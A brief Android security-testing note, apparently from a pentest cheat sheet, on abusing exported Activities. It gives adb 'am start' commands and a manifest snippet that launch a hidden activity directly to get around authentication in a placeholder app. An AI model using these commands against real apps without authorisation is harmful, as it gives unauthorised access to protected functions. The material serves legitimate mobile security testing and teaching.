# Exploiting exported Activities

If an activity involving sensitive information is exported, it could potentially bypass authentication mechanisms, allowing unauthorized access.

```sh
adb shell am start -n com.example.demo/com.example.test.MainActivity
```

You need to start the activity with the intent filtered declared:

```xml
<activity android:name="com.example.demo.HiddenActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.QUICK_VIEW"/>
        <category android:name="android.intent.category.INFO"/>
    </intent-filter>
</activity>
```

```
adb shell am start -n com.example.demo/.HiddenActivity -a android.intent.action.QUICK_VIEW -c android.intent.category.INFO
```
